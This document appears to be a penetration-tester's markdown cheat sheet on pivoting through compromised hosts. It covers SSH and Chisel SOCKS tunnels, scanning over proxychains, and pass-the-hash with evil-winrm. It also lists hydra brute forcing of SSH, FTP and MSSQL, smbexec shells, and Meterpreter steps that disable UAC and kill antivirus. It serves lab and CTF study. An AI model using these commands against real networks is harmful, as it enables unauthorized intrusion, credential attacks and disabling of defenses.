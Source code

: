 # Scanning though a pivot    
## Contents    
- [Contents    ](#contents)
- [Subnet Enumeration Commands    ](#subnet-enumeration-commands)
- [ProxyChains    ](#proxychains)
  * [SSH Dynamic Tunnels     ](#ssh-dynamic-tunnels)
  * [Chisel   ](#chisel)
  * [Nmap scan through a dynamic SOCKS proxy  ](#nmap-scan-through-a-dynamic-socks-proxy)
  * [Web access:    ](#web-access)
  * [Use WinRM through proxychains         ](#use-winrm-through-proxychains)
  * [MSSQL Access Through Proxychains       ](#mssql-access-through-proxychains)
  * [RDP through ProxyChains       ](#rdp-through-proxychains)
  * [SMBExec Through Proxychains      ](#smbexec-through-proxychains)
  * [Brute Force a Service Through Proxychains    ](#brute-force-a-service-through-proxychains)
- [Uploading Static Binaries    ](#uploading-static-binaries)
- [Exploiting Through a Tunnel    ](#exploiting-through-a-tunnel)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Edit the below values in proxychains.conf or proxychains4.conf to get faster scan results (adjust based on quality of the connection and the baseline TCP response time):     

   tcp_read_time_out 1200       
   tcp_connect_time_out 800  
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
    proxychains evil-winrm -u Administrator -H 'hash' -i 10.10.10.10    #pass the hash         
### MSSQL Access Through Proxychains       
 
    proxychains sqsh -S 172.16.1.5 -U user -P password    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
### SMBExec Through Proxychains      
Using Impacket SMBexec.py script - often caught by AV so be careful. Smbexec has limited commands, so you will want to execute a payload to get a shell.            

    proxychains -q smbexec.py test/admin:test@192.168.1.10         
    proxychains -q /usr/share/doc/python3-impacket/examples/smbexec.py domain/user:'password'@172.16.1.5    
    
### Brute Force a Service Through Proxychains    

    proxychains hydra 10.10.10.10 ssh -s 22 -L users.txt -P passwords.txt -t 4     
    proxychains hydra -L usernames -P passwords 10.10.10.0/24 ftp       #brute force a subnet   
    proxychains hydra -L users –P passwords <IP> mssql   #MSSQL    
    
## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
## Exploiting Through a Tunnel    
Web exploits in Python - you probably need to proxy the traffic through a tunnel (probably socks5) using requests:    

    proxies = {
      "http": "socks5://127.0.0.1:1080",
    }